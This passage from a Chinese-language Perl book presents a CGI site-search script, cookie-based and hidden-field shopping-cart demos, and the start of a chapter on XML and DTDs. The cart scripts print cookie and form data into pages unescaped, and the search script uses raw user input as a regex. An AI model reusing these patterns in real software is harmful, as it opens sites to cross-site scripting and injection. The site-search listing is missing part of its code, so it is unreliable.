这段代码会创建一个哈希表，其键为文件名，值为该文件中的匹配次数。要完成这个脚本，我需要按照文件中匹配次数的降序对这个哈希表进行排序。对哈希表进行排序时，如果我能将匹配次数作为哈希表的键，就可以直接按键排序，会更容易。然而，因为多个文件可能有相同的匹配次数，这些键不会唯一。出于这个原因，我会将文件名（包含相对路径）作为哈希表的键，并使用名为**排序器**的排序函数实际对哈希表进行排序。我按如下方式使用**排序器**对哈希表排序，然后显示匹配次数和指向匹配文件的超链接（注意我使用**$base_url**来构造超链接）：
``` if (keys %hash) { @sorted = sort {sorter($a, $b)} keys %hash; $number_found = $#sorted + 1; print $co->center($co->h1("Found $number_found matches")); foreach $file (@sorted) { print $co->a ( {-href => "$base_url/$file"}, $file ), " Number of matches: ", $hash{$file}, $co->p; } } ```

剩下的就是**排序器**子例程，它通过比较哈希表中的值（而非键）来对哈希表进行排序：
``` sub sorter { $a = shift; $b = shift; return ($hash{$b} <=> $hash{$a}); } ```

至此，cgisearch.cgi就完成了。你可以尝试一下；经过一点自定义，它就能为你的网站增添不少亮点，任何做过成功站点搜索的人都知道这一点。

## 列表24.3 cgisearch.cgi
``` #!/usr/local/bin/perl use CGI; use File::Find; $base_address = '/www/username/search'; $base_url = 'http://www.yourserver.com/~username/search'; $co = new CGI; if (!$co->param()) { ```
``` print $co->header, $co->start_html('CGI Site Search Example'), $co->center ( $co->br, $co->h1('CGI Site Search Example'), $co->start_form, "String to search for: ",$co->textfield('key'), $co->p, $co->submit(-value=>'Search'), $co->reset, $co->end_form ), $co->hr; ```
``` } else { print $co->header, $co->start_html('CGI Site Search Example'), $co->center ( $co->h1('CGI Site Search Example') ); $key = $co->param('key'); find \&finder, $base_address; ```
``` close FILEHANDLE; $number = 0; $number++ while /${key}/g; $file = $File::Find::name; $length = length ($base_address) + 1; $file =~ /^.{${length}}(.*)/; if ($number) {$hash{$1} = $number} } } ```

| 相关解决方案： | 所在页码： |
| --- | --- |
| **File::Find** 搜索目录中的文件 | 619 |

## 购物车演示
大老板进来说：“是时候把我们的家居和办公产品分部搬到线上运营了。我要你搭建一个在线商店。”
“哦，是吗？”你问道。
“没错，”大老板说，“要附带完整的在线购物车功能。”
“我需要多长时间完成？”你问道。
“我已经告诉股东，商店明天就会上线，”大老板说道。

购物车应用程序允许用户在线购物，从多个页面中选择商品并将其存储在购物车中，用户之后可以一次性为所有商品付款。购物车的概念是在线购物的基础，因此我将在这个演示程序中介绍购物车的工作原理。

购物车程序通常非常复杂，涉及大量与库存和存货数据的接口，因此这只是一个演示，用来说明这类程序的工作方式。

这个演示使用三个CGI脚本。其中两个（cgishop1.cgi和cgishop2.cgi）用于展示带待购商品的购物页面，第三个（cgicart.cgi）用于生成实际的购物车页面。你可以在本章后面的列表24.4中找到cgishop1.cgi，在列表24.5中找到cgishop2.cgi，在列表24.6中找到cgicart.cgi。

大多数购物车程序会将数据存储在用户机器上的cookie中，这个演示也会这样做。注意部分用户反感cookie或在浏览器中禁用了cookie，因此我将在下一节“无Cookie的购物车演示”中创建一个无Cookie的购物车程序。

要使用这个购物车演示，用户只需打开其中一个购物页面，例如通过导航到cgishop1.cgi打开的页面，如图24.11所示。在该页面中，用户只需勾选想要购买的商品对应的复选框，然后点击“添加到购物车”按钮即可。当用户点击该按钮时，会调用购物车脚本cgicart.cgi。该脚本会在用户机器上存储一个包含已购商品的cookie，并展示这些商品，如图24.12所示。用户还可以点击“转到办公产品页面”按钮导航到其他页面，例如办公产品页面，打开如图24.13所示的办公产品页面。在办公产品页面中，用户可以通过勾选相应的复选框并点击“添加到购物车”按钮来选择额外要购买的商品。当用户点击该按钮时，购物车会显示两个页面中选中的所有商品，如图24.14所示。通过这种方式，一个购物车可以跟踪用户在多个购物页面中的所有购买行为。

注意所有这些脚本都必须能够知道其他脚本的位置，以便用户可以在它们之间自由跳转。这意味着如果你想尝试这些



## 图24.11 选择家居用品


## 第24章 CGI：创建购物车、数据库、网站搜索和文件上传

图24.12 在购物车中展示家居商品。

图24.13 选择办公用品。
感谢您选择我们服务……以下是您的购买商品：
- 洗发水
- 牙膏
- 书桌
- 搁架

在这些演示中，你应该相应地调整每个脚本中的三个URL（例如，在cgishop1.cgi中，将www.yourserver.com/~username/cgi/cgishop2.cgi替换为cgishop2.cgi的实际URL，其余以此类推）。
本应用的实际功能都在cgicart.cgi中实现。cgishop1.cgi和cgishop2.cgi生成的两个购物页面仅包含带复选框的表单，正是cgicart.cgi会读取这些复选框的值，并将结果存入cookie。我会将购物车数据存储在名为`cart`的cookie中，因此cgicart.cgi的首要操作是读取该cookie的内容到名为`$purchases`的标量中，检查是否存在待处理的购买项：
```perl
#!/usr/local/bin/perl
use CGI;
$co = new CGI;
$purchases = $co->cookie('cart');
```
接着，我会将用户新勾选复选框对应的新购买项追加到**$purchases**中：
```perl
#!/usr/local/bin/perl
use CGI;
$co = new CGI;
$purchases = $co->cookie('cart');
if ($co->param('checkboxes')) {
    $purchases .= join('<p>',$co->param('checkboxes')) . '<p>';
}
```
随后，我将**$purchases**存入新版本的cookie中。注意，我会首先检查是否有新的购买项，以避免无意义地写入cookie（如果用户选择了删除购物车中的所有商品，**delete_field**的值为非零，稍后我们会看到这一点）：
```perl
#!/usr/local/bin/perl
use CGI;
$co = new CGI;
$purchases = $co->cookie('cart');
if ($co->param('checkboxes')) {
    $purchases .= join('<p>',$co->param('checkboxes')) . '<p>';
}
$cookie1 = $co->cookie(-name=>'cart', -value=>$purchases);
if ($co->param('delete_field')) {
    $cookie1 = $co->cookie(-name=>'cart', -value=>'');
}
if($co->param('checkboxes') || $co->param('delete_field')) {
    print $co->header(-cookie=>$cookie1);
}
else {
    print $co->header;
}
```
剩下的工作就是展示当前的购买项，示例如下：
```perl
print $co->start_html (
    -title=>'CGI Example',
    -author=>'Steve',
    -meta=>{'keywords'=>'CGI Perl'},
    -BGCOLOR=>'white',
    -LINK=>'red'
),
```
```perl
$co->center (
    $co->h1 (
        'Thanks for letting us serve you...'
    )
),
```
```perl
$co->h3('Here are your purchases...'),
```
```perl
$co->hr;
```
```perl
if ($purchases eq '<p>' || $purchases eq '' || $co->param('delete_field')) {
    print "Your shopping cart is empty.";
}
```
```perl
else {
    print $purchases;
}
```
注意，我通过提交一个包含名为**delete_field**的隐藏字段的表单，允许用户删除购物车中的商品；如果该字段的值为非零，脚本会清空cookie，从而清空购物车。下面的cgicart.cgi表单会创建并发送**delete_field**字段：
```perl
$co->start_form (
    -method=>'POST',
    -action=>"http://www.yourserver.com/~username/cgi/cgicart.cgi"
),
$co->center (
    $co->submit('Delete All Items'),
    $co->hidden(-name=>delete_field,-value=>1,-override=>1)
),
$co->end_form,
$co->end_html;
```
如你所见，这个基础版购物车不会检查重复商品（例如用户重复添加同一商品），而且用户应该能够删除购物车中的单个商品。不过，它清楚地展示了购物车应用的工作原理。如果你不想使用cookie，可以查看下一节内容，其中实现了不使用cookie的相同示例。
### 清单24.4 cgishop1.cgi
```perl
#!/usr/local/bin/perl
use CGI;
$co = new CGI;
print $co->header, $co->start_html (
    -title=>'CGI Example',
    -author=>'Steve',
    -meta=>{'keywords'=>'CGI Perl'},
    -BGCOLOR=>'white',
    -LINK=>'red'
),
$co->center (
    $co->h1 (
        'Welcome to our store!'
    )
),
$co->center (
    $co->h2 (
        'Home Products'
    )
),
$co->hr,
$co->start_form (
    -name=>'form1',
    -method=>'POST',
    -action=>"http://www.yourserver.com/~username/cgi/cgicart.cgi"
),
"Please check the items you want to buy: ",
$co->p,
$co->center (
    $co->checkbox_group (
        -name=>'checkboxes',
        -values=>['Shampoo','Toothpaste','Detergent','Lotion']
    )
),
$co->p,
$co->p,
$co->center (
    $co->submit('Add to Shopping Cart'),
    $co->reset,
),
$co->p,
$co->hr,
$co->end_form,
$co->start_form (
    -name=>'form2',
    -method=>'POST',
    -action=>"http://www.yourserver.com/~username/cgi/cgishop2.cgi"
),
$co->center (
    $co->submit('Go to Office Products Page'),
),
$co->end_form,
$co->start_form (
    -name=>'form3',
    -method=>'POST',
    -action=>"http://www.yourserver.com/~username/cgi/cgicart.cgi"
),
$co->center (
    $co->submit('See Your Shopping Cart'),
),
$co->end_form,
$co->end_html;
```
### 清单24.5 cgishop2.cgi
```perl
#!/usr/local/bin/perl
use CGI;
$co = new CGI;
print $co->header, $co->start_html (
    -title=>'CGI Example',
    -author=>'Steve',
    -meta=>{'keywords'=>'CGI Perl'},
    -BGCOLOR=>'white',
    -LINK=>'red'
),
$co->center (
    $co->h1 (
        'Welcome to our store!'
    )
),
$co->center (
    $co->h2 (
        'Office Products'
    )
),
$co->hr,
$co->start_form (
    -name=>'form1',
    -method=>'POST',
    -action=>"http://www.yourserver.com/~username/cgi/cgicart.cgi"
),
"Please check the items you want to buy: ",
$co->p,
$co->center (
    $co->checkbox_group (
        -name=>'checkboxes',
        -values=>['Stapler','Eraser','Desk','Shelves']
    )
),
$co->p,
$co->p,
$co->center (
    $co->submit('Add to Shopping Cart'),
    $co->reset,
),
$co->p,
$co->hr,
$co->end_form,
$co->start_form (
    -name=>'form2',
    -method=>'POST',
    -action=>"http://www.yourserver.com/~username/cgi/cgishop1.cgi"
),
$co->center (
    $co->submit('Go to Home Products Page'),
),
$co->end_form,
$co->start_form (
    -name=>'form3',
    -method=>'POST',
    -action=>"http://www.yourserver.com/~username/cgi/cgicart.cgi"
),
$co->center (
    $co->submit('See Your Shopping Cart'),
),
$co->end_form,
$co->end_html;
```
### 清单24.6 cgicart.cgi
```perl
#!/usr/local/bin/perl
use CGI;
$co = new CGI;
$purchases = $co->cookie('cart');
if ($co->param('checkboxes')) {
    $purchases .= join('<p>',$co->param('checkboxes')) . '<p>';
}
$cookie1 = $co->cookie(-name=>'cart', -value=>$purchases);
if ($co->param('delete_field')) {
    $cookie1 = $co->cookie(-name=>'cart', -value=>'');
}
if($co->param('checkboxes') || $co->param('delete_field')) {
    print $co->header(-cookie=>$cookie1);
}
else {
    print $co->header;
}
print $co->start_html (
    -title=>'CGI Example',
    -author=>'Steve',
    -meta=>{'keywords'=>'CGI Perl'},
    -BGCOLOR=>'white',
    -LINK=>'red'
),
$co->center (
    $co->h1 (
        'Thanks for letting us serve you...'
    )
),
$co->h3('Here are your purchases...'),
$co->hr;
if ($purchases eq '<p>' || $purchases eq '' || $co->param('delete_field')) {
    print "Your shopping cart is empty.";
}
else {
    print $purchases;
}
print $co->hr, $co->start_form (
    -method=>'POST',
    -action=>"http://www.yourserver.com/~username/cgi/cgishop1.cgi"
),
$co->center (
    $co->submit('Go to Home Products'),
),
$co->end_form,
$co->start_form (
    -method=>'POST',
    -action=>"http://www.yourserver.com/~username/cgi/cgishop2.cgi"
),
$co->center (
    $co->submit('Go to Office Products'),
),
$co->end_form,
$co->start_form (
    -method=>'POST',
    -action=>"http://www.yourserver.com/~username/cgi/cgicart.cgi"
),
$co->center (
    $co->submit('Delete All Items'),
    $co->hidden(-name=>delete_field,-value=>1,-override=>1)
),
$co->end_form,
$co->end_html;
```


## 无Cookie的购物车演示
大老板说：“我们的购物车程序再也用不了Cookie了。有一位非常重要的用户不喜欢它们。”
“谁呀？”你问道。
“我妈，”大老板答道。

你可以通过将购物车数据存储在隐藏字段中（而非Cookie）来创建购物车应用。本主题的代码仅使用隐藏数据字段复现了前一主题中的购物页面和购物车脚本。这两个购物页面分别由shop1.cgi和shop2.cgi创建，购物车功能本身由cart.cgi实现。你可以在清单24.7中找到shop1.cgi，在清单24.8中找到shop2.cgi，在清单24.9中找到cart.cgi。这些脚本的运行结果与图24.11至图24.14中的完全一致。

在本例中，每个页面都会接收购物车数据，并将这些数据存储在名为**$shoppingcart**的变量中，代码如下：
``` if ($co->param()) { $shoppingcart = $co->param('shoppingcart'); } ```

这些数据会被存储在名为**shoppingcart**的隐藏字段中，代码如下：
``` $co->hidden ( -name=>'shoppingcart', -override => 1, -default => $shoppingcart ) ```

当用户跳转到其他页面时，当前页面会将隐藏字段中的购物车数据传递给所调用的下一个页面。如果用户向购物车中添加更多商品，这些商品会通过如下方式添加到cart.cgi的购物车数据中：
``` if ($co->param()) { $purchases = $co->param('shoppingcart') . join('<p>', $co->param('checkboxes')) . '<p>'; ```

正如你所见，这个过程比使用Cookie需要多写一点代码，因为每个页面都要处理购物车数据，而不仅仅是购物车本身。另一个缺点是，和Cookie不同，隐藏字段无法在浏览器会话之间保留购物车内容。但如果你不想使用Cookie，隐藏字段有时也能作为合适的替代方案。

### 清单24.7 shop1.cgi
``` #!/usr/local/bin/perl
use CGI;
$co = new CGI;
if ($co->param()) {
 $shoppingcart = $co->param('shoppingcart');
}
print $co->header, $co->start_html (
 -title=>'CGI Example',
 -author=>'Steve',
 -meta=>{'keywords'=>'CGI Perl'},
 -BGCOLOR=>'white',
 -LINK=>'red'
 ),
 $co->center (
 $co->h1 ( 'Welcome to our store!' )
 ),
 $co->center (
 $co->h2 ( 'Home Products' )
 ),
 $co->hr,
 $co->start_form (
 -name=>'form1',
 -method=>'POST',
 -action=>"http://www.yourserver.com/~username/cgi/cart.cgi"
 ),
 "Please check the items you want to buy: ",
 $co->p,
 $co->center (
 $co->checkbox_group (
 -name=>'checkboxes',
 -values=>['Shampoo','Toothpaste','Detergent','Lotion']
 )
 ),
 $co->p,
 $co->hidden (
 -name=>'shoppingcart',
 -override => 1,
 -default => $shoppingcart
 ),
 $co->p,
 $co->center (
 $co->submit('Add to Shopping Cart'),
 $co->reset,
 ),
 $co->p,
 $co->hr,
 $co->end_form,
 $co->start_form (
 -name=>'form2',
 -method=>'POST',
 -action=>"http://www.yourserver.com/~username/cgi/shop2.cgi"
 ),
 $co->hidden (
 -name=>'shoppingcart',
 -override => 1,
 -default => $shoppingcart
 ),
 $co->center (
 $co->submit('Go to Office Products Page'),
 ),
 $co->end_form,
 $co->start_form (
 -name=>'form3',
 -method=>'POST',
 -action=>"http://www.yourserver.com/~username/cgi/cart.cgi"
 ),
 $co->hidden (
 -name=>'shoppingcart',
 -override => 1,
 -default => $shoppingcart
 ),
 $co->center (
 $co->submit('See Your Shopping Cart'),
 ),
 $co->end_form,
 $co->end_html;
 ```

### 清单24.8 shop2.cgi
``` #!/usr/local/bin/perl
use CGI;
$co = new CGI;
if ($co->param()) {
 $shoppingcart = $co->param('shoppingcart');
}
print $co->header, $co->start_html (
 -title=>'CGI Example',
 -author=>'Steve',
 -meta=>{'keywords'=>'CGI Perl'},
 -BGCOLOR=>'white',
 -LINK=>'red'
 ),
 $co->center (
 $co->h1 ( 'Welcome to our store!' )
 ),
 $co->center (
 $co->h2 ( 'Office Products' )
 ),
 $co->hr,
 $co->start_form (
 -name=>'form1',
 -method=>'POST',
 -action=>"http://www.yourserver.com/~username/cgi/cart.cgi"
 ),
 "Please check the items you want to buy: ",
 $co->p,
 $co->center (
 $co->checkbox_group (
 -name=>'checkboxes',
 -values=>['Stapler','Eraser','Desk','Shelves']
 )
 ),
 $co->p,
 $co->hidden (
 -name=>'shoppingcart',
 -override => 1,
 -default => $shoppingcart
 ),
 $co->p,
 $co->center (
 $co->submit('Add to Shopping Cart'),
 $co->reset,
 ),
 $co->p,
 $co->hr,
 $co->end_form,
 $co->start_form (
 -name=>'form2',
 -method=>'POST',
 -action=>"http://www.yourserver.com/~username/cgi/shop1.cgi"
 ),
 $co->hidden (
 -name=>'shoppingcart',
 -override => 1,
 -default => $shoppingcart
 ),
 $co->center (
 $co->submit ( 'Go to Home Products Page' ),
 ),
 $co->end_form,
 $co->start_form (
 -name=>'form3',
 -method=>'POST',
 -action=>"http://www.yourserver.com/~username/cgi/cart.cgi"
 ),
 $co->hidden (
 -name=>'shoppingcart',
 -override => 1,
 -default => $shoppingcart
 ),
 $co->center (
 $co->submit('See Your Shopping Cart'),
 ),
 $co->end_form,
 $co->end_html;
 ```

### 清单24.9 cart.cgi
``` #!/usr/local/bin/perl
use CGI;
$co = new CGI;
print $co->header, $co->start_html (
 -title=>'CGI Example',
 -author=>'Steve',
 -meta=>{'keywords'=>'CGI Perl'},
 -BGCOLOR=>'white',
 -LINK=>'red'
 ),
 $co->center (
 $co->h1 ( 'Thanks for letting us serve you...' )
 ),
 $co->h3('Here are your purchases...'),
 $co->hr;
if ($co->param()) {
 $purchases = $co->param('shoppingcart') . join('<p>',$co->param('checkboxes')) . '<p>';
 if ($purchases ne '<p>') {
 print $purchases;
 } else {
 print "Your shopping cart is empty.";
 }
} else {
 print "Your shopping cart is empty.";
}
print $co->hr,
 $co->start_form (
 -method=>'POST',
 -action=>"http://www.yourserver.com/~username/cgi/shop1.cgi"
 ),
 $co->hidden(-name=>'shoppingcart',
 -override => 1,
 -value => $purchases),
 $co->center (
 $co->submit('Go to Home Products'),
 ),
 $co->end_form,
 $co->start_form (
 -method=>'POST',
 -action=>"http://www.yourserver.com/~username/cgi/shop2.cgi"
 ),
 $co->hidden (
 -name=>'shoppingcart',
 -override => 1,
 -value => $purchases
 ),
 $co->center (
 $co->submit('Go to Office Products'),
 ),
 $co->end_form,
 $co->start_form (
 -method=>'POST',
 -action=>"http://www.yourserver.com/~username/cgi/cart.cgi"
 ),
 $co->hidden (
 -name=>'shoppingcart',
 -override => 1,
 -value => ""
 ),
 $co->center (
 $co->submit('Delete All Items in Shopping Cart'),
 ),
 $co->end_form,
 $co->end_html;
 ```

# 第24章 CGI：创建购物车、数据库、站点搜索和文件上传
# 第25章 XML::DOM解析
| 如需快速解决以下问题： | 参见页码： |
| --- | --- |
| 使用XML::DOM | 1094 |
| DOM解析：DOMParser.pl示例 | 1101 |
| 处理文档节点 | 1106 |
| 处理元素节点 | 1107 |
| 处理属性节点 | 1109 |
| 处理文本节点 | 1110 |
| 处理处理指令节点 | 1111 |
| 闭合元素节点 | 1112 |
| 运行DOMParser.pl示例 | 1114 |

## 深入讲解
欢迎学习可扩展标记语言（XML）。XML是一种用于描述数据的标记语言，它支持你比HTML等其他标记语言更精确地构建数据结构。近年来Perl在XML领域发展迅速，我们将在本章及后续两章中介绍相关内容。在XML中，你可以自定义标签及其语法，从而让文档结构贴合数据结构。要在Perl中处理XML文档，你需要了解XML文档的编写方式，因此本章首先会介绍如何创建XML文档。之后我们会学习**XML::DOM**Perl模块，用它来读取文档并逐段解析。下一章中，我们会了解如何使用**XML::DOM**模块修改XML文档内容，以及如何使用**XML::Parser**模块解析XML。再下一章，我们会学习如何将XML与CGI结合使用，还将了解用于在互联网上使用XML的简单对象访问协议（SOAP），以及基于XML的无线标记语言（WML）。

XML由万维网联盟（W3C）创建，HTML同样出自该组织。以下是一些可用于学习XML的资源；请尤其注意第一项，其中列出了定义XML的最新官方XML规范：
- **www.w3.org/TR/REC-xml/**——最新的XML规范。W3C负责制定XML的规范，并规定了如何创建文档类型定义以及本章中将会涉及的其他元素的规则。
- **http://msdn.microsoft.com/workshop/xml/index.asp**——微软的XML相关论述。
- **http://msdn.microsoft.com/xml/tutorial/default.asp**——微软的XML教程。
- **www.projectcool.com/developer/xmlz/index.html**——Project Cool的深度教程。

接下来我们先来看XML文档的样貌，以及它的运行原理。

## XML看起来是什么样的？
为了展示XML文档的样貌，我们这里会创建一个存储多名客户购买记录的XML文档，以此说明在XML中创建数据结构非常简单。要创建XML文档，你需要先从开头写：


# 第25章 XML::DOM 解析
XML 声明为 **<?xml version = "1.0"?>**。这是XML文档必需的首行，用于向XML解析器告知你正在使用的XML版本（截至本文撰写时，1.0是唯一可用的版本）。XML中的所有标记都和HTML中的标记一样，用尖括号<和>包裹。因此，我们XML文档的首行如下：
``` <?xml version = "1.0"?> ```
你可以在XML中自定义元素名称，本文也会这么做。XML文档的主体需要被包裹在一个XML元素中，我们将其命名为**<DOCUMENT>**。
XML中的元素以开始标签开头，例如**<DOCUMENT>**，以结束标签结尾，例如**</DOCUMENT>**，和HTML的规则类似：
``` <?xml version = "1.0"?> <DOCUMENT> . . . </DOCUMENT> ```
XML中也存在开始标签和结束标签之间没有内容的元素：**<DOCUMENT></DOCUMENT>**，这类元素被称为*空*元素。在XML中还有书写空元素的简写形式：**<DOCUMENT/>**。
现在我将开始按客户存储采购数据。为了存储客户数据，我会创建一个新元素**<CUSTOMER>**，将其放在**<DOCUMENT>**元素内部：
``` <?xml version = "1.0"?> <DOCUMENT> <CUSTOMER> . . . </CUSTOMER> </DOCUMENT> ```
我还可以通过创建新的**<NAME>**元素来存储客户姓名，该元素内部包含两个子元素——**<LAST_NAME>**和**<FIRST_NAME>**：
``` <?xml version = "1.0"?> <DOCUMENT> <CUSTOMER> <NAME> <LAST_NAME>Thomson</LAST_NAME> <FIRST_NAME>Susan</FIRST_NAME> </NAME> . . . </CUSTOMER> </DOCUMENT> ```
我还会存储记录日期，随后将客户的实际订单存放在**<ORDERS>**元素中，该元素用于存放客户购买的所有商品：
``` <?xml version = "1.0"?> <DOCUMENT> <CUSTOMER> <NAME> <LAST_NAME>Thomson</LAST_NAME> <FIRST_NAME>Susan</FIRST_NAME> </NAME> <DATE>September 1, 2001</DATE> <ORDERS> <ITEM> <PRODUCT>Video tape</PRODUCT> <NUMBER>5</NUMBER> <PRICE>$1.25</PRICE> </ITEM> <ITEM> <PRODUCT>Shovel</PRODUCT> <NUMBER>2</NUMBER> <PRICE>$4.98</PRICE> </ITEM> </ORDERS> </CUSTOMER> . . . </DOCUMENT> ```
我可以在这个XML文档中存储任意数量的客户记录；下面演示如何添加新客户的记录：
``` <?xml version = "1.0"?> <DOCUMENT> <CUSTOMER> <NAME> <LAST_NAME>Thomson</LAST_NAME> <FIRST_NAME>Susan</FIRST_NAME> </NAME> <DATE>September 1, 2001</DATE> <ORDERS> <ITEM> <PRODUCT>Video tape</PRODUCT> <NUMBER>5</NUMBER> <PRICE>$1.25</PRICE> </ITEM> <ITEM> <PRODUCT>Shovel</PRODUCT> <NUMBER>2</NUMBER> <PRICE>$4.98</PRICE> </ITEM> </ORDERS> </CUSTOMER> <CUSTOMER> <NAME> <LAST_NAME>Smithson</LAST_NAME> <FIRST_NAME>Nancy</FIRST_NAME> </NAME> <DATE>September 2, 2001</DATE> <ORDERS> <ITEM> <PRODUCT>Ribbon</PRODUCT> <NUMBER>12</NUMBER> <PRICE>$2.95</PRICE> </ITEM> <ITEM> <PRODUCT>Goldfish</PRODUCT> <NUMBER>6</NUMBER> <PRICE>$1.50</PRICE> </ITEM> </ORDERS> </CUSTOMER> </DOCUMENT> ```
和HTML类似，你也可以为XML元素添加*属性*。属性用于为元素指定附加数据，例如HTML中****元素的**WIDTH**和**HEIGHT**属性，分别用于指定图片的宽度和高度。下面是一个XML示例，我给每个**<CUSTOMER>**元素添加了**TYPE**属性，用来标识客户的类型：
``` <?xml version = "1.0"?> <DOCUMENT> <CUSTOMER TYPE="Good"> <NAME> <LAST_NAME>Thomson</LAST_NAME> <FIRST_NAME>Susan</FIRST_NAME> </NAME> <DATE>September 1, 2001</DATE> <ORDERS> <ITEM> <PRODUCT>Video tape</PRODUCT> <NUMBER>5</NUMBER> <PRICE>$1.25</PRICE> </ITEM> <ITEM> <PRODUCT>Shovel</PRODUCT> <NUMBER>2</NUMBER> <PRICE>$4.98</PRICE> </ITEM> </ORDERS> </CUSTOMER> <CUSTOMER TYPE="Poor"> <NAME> <LAST_NAME>Smithson</LAST_NAME> <FIRST_NAME>Nancy</FIRST_NAME> </NAME> <DATE>September 2, 2001</DATE> <ORDERS> <ITEM> <PRODUCT>Ribbon</PRODUCT> <NUMBER>12</NUMBER> <PRICE>$2.95</PRICE> </ITEM> <ITEM> <PRODUCT>Goldfish</PRODUCT> <NUMBER>6</NUMBER> <PRICE>$1.50</PRICE> </ITEM> </ORDERS> </CUSTOMER> </DOCUMENT> ```
和HTML不同，XML中必须始终为属性赋值，并且必须使用双引号或单引号包裹属性值。我们已经了解了如何创建基础的XML文档，但流程还不止这些。理想的XML文档还应该满足*有效*和*结构良好*的要求，在介绍操作XML文档数据的细节之前，我们先来看看这两个概念的含义。

## 有效且结构良好的XML文档
除了创建XML文档中的元素外，你还可以规定文档中哪些语法是合法的、哪些是非法的——例如，哪些元素可以包含其他元素、一个元素具体可以包含哪些元素、可包含的元素数量等。
规定XML页面语法有两种方式：使用*文档类型定义*（*DTD*），或者*XML模式*，XML模式和DTD作用相同，但能提供更灵活的控制。
如果XML文档关联了DTD或模式，且文档内容符合对应DTD或模式的要求，该文档就被视为*有效*的。这就是让文档变得有效的全部要求。
> **提示：** 如需检查XML页面是否有效，可访问微软XML验证器页面：**http://msdn.microsoft.com/downloads/samples/internet/xml/xml_validator/default.asp**。你可以下载并运行微软验证器测试XML文档，也可以输入XML文档的网址进行在线校验。
如果XML文档包含一个或多个元素，且存在唯一一个（即*文档*元素）包裹所有其他元素，同时所有其他元素都正确嵌套，那么该文档就被视为*结构良好*的。此外还有一些其他要求，你可以在XML 1.0规范中查看，但上述是核心要求。
> **注意：** 需要特别注意的是，必须有一个文档元素包裹所有其他元素的要求。后续我们在代码中操作XML文档内容时这一点非常重要，因为我们会先获取文档元素的访问权限，再根据需求访问其他元素。看一下之前的XML示例，其中的文档元素就被命名为**<DOCUMENT>**。示例如下：
在本例中，我会给我们本章创建的XML文档添加DTD，使其同时满足有效和结构良好的要求（尽管XML模式正逐渐变得更流行，但目前Perl模块还不支持模式，因此我们暂时使用DTD；几页之后会介绍如何创建DTD）：
``` <?xml version = "1.0" ?> <!DOCTYPE DOCUMENT [ <!ELEMENT DOCUMENT (CUSTOMER)*> <!ELEMENT CUSTOMER (NAME,DATE,ORDERS)> <!ELEMENT NAME (LAST_NAME,FIRST_NAME)> <!ELEMENT LAST_NAME (#PCDATA)> <!ELEMENT FIRST_NAME (#PCDATA)> <!ELEMENT DATE (#PCDATA)> <!ELEMENT ORDERS (ITEM)*> <!ELEMENT ITEM (PRODUCT,NUMBER,PRICE)> <!ELEMENT PRODUCT (#PCDATA)> ```


## 第25章：XML::DOM解析

```
<!ELEMENT NUMBER (#PCDATA)>
<!ELEMENT PRICE (#PCDATA)>
]>
<DOCUMENT>
    <CUSTOMER>
        <NAME>
            <LAST_NAME>Thomson</LAST_NAME>
            <FIRST_NAME>Susan</FIRST_NAME>
        </NAME>
        <DATE>September 1, 2001</DATE>
        <ORDERS>
            <ITEM>
                <PRODUCT>Video tape</PRODUCT>
                <NUMBER>5</NUMBER>
                <PRICE>$1.25</PRICE>
            </ITEM>
            <ITEM>
                <PRODUCT>Shovel</PRODUCT>
                <NUMBER>2</NUMBER>
                <PRICE>$4.98</PRICE>
